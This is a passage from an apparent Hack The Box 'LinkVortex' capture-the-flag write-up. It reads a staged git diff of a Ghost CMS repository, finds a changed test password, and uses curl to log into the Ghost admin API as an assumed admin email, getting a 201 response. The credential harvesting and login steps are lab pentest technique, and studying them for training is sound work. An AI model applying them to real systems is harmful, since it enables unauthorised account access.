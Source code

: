 ```
+
+# Wait for the db to be ready first
+COPY wait-for-it.sh /var/lib/ghost/wait-for-it.sh
+COPY entry.sh /entry.sh
+RUN chmod +x /var/lib/ghost/wait-for-it.sh
+RUN chmod +x /entry.sh
+
+ENTRYPOINT ["/entry.sh"]
+CMD ["node", "current/index.js"]
diff --git a/ghost/core/test/regression/api/admin/authentication.test.js b/ghost/core/test/regression/api/admin/authentication.test.js
index 2735588..e654b0e 100644
--- a/ghost/core/test/regression/api/admin/authentication.test.js
+++ b/ghost/core/test/regression/api/admin/authentication.test.js
@@ -53,7 +53,7 @@ describe('Authentication API', function () {
 
         it('complete setup', async function () {
             const email = 'test@example.com';
-            const password = 'thisissupersafe';
+            const password = '******************';
 
             const requestMock = nock('https://api.github.com')
                 .get('/repos/tryghost/dawn/zipball')
```

`diff` shows changes in `Dockerfile.ghost` and `authentication.test.js`. In 2nd file we can see password change!
```
+            const password = '******************';
```

Let's note it down and sum up what we know so far:
- Admin panel is accessible at http://linkvortex.htb/ghost.
- [User authentication API](https://ghost.org/docs/admin-api/#user-authentication) uses `POST /admin/session/`
- There is `admin` user in the CMS.
- We found password with `git diff --staged`.

What we do not know is exact email for `admin` user, however we could assume that it would be in the same domain as target (`@linkvortex.htb`). So before we take any further action let's try those credentials.
```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ curl -v -X POST http://linkvortex.htb/ghost/api/admin/session -d '{"username":"admin@linkvortex.htb","password":"******************"}' -H 'Content-Type: application/json'
Note: Unnecessary use of -X or --request, POST is already inferred.
* Host linkvortex.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.129.22.221
*   Trying 10.129.22.221:80...
* Connected to linkvortex.htb (10.129.22.221) port 80
* using HTTP/1.x
> POST /ghost/api/admin/session HTTP/1.1
> Host: linkvortex.htb
> User-Agent: curl/8.11.1
> Accept: */*
> Content-Type: application/json
> Content-Length: 67
> 
* upload completely sent off: 67 bytes
< HTTP/1.1 201 Created
< Date: Fri, 11 Apr 2025 19:30:32 GMT
< Server: Apache
< X-Powered-By: Express
< Content-Version: v5.58
```